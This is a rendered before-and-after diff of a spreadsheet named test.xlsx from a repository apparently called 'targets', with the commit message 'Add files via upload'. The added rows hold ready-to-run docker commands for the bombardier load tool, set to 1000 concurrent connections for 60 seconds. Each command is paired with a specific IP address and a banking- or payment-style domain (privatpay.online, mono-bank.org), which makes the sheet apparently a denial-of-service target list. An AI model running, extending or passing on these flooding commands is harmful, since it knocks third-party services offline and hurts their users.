

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; conditional formats not drawn; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-row 1: (empty)
+row 1: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.21.52.57&& sleep 5; | 104.21.52.57 | privatpay.online
-row 2: for i in {1..1000}; do
+row 2: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.195.242&& sleep 5; | 172.67.195.242 | privatpay.online
+row 3: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.73.86&& sleep 5; | 172.67.73.86 | mono-bank.org
+row 4: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.26.3.67&& sleep 5; | 104.26.3.67 | mono-bank.org
+row 5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.26.2.67&& sleep 5; | 104.26.2.67 | mono-bank.org
```
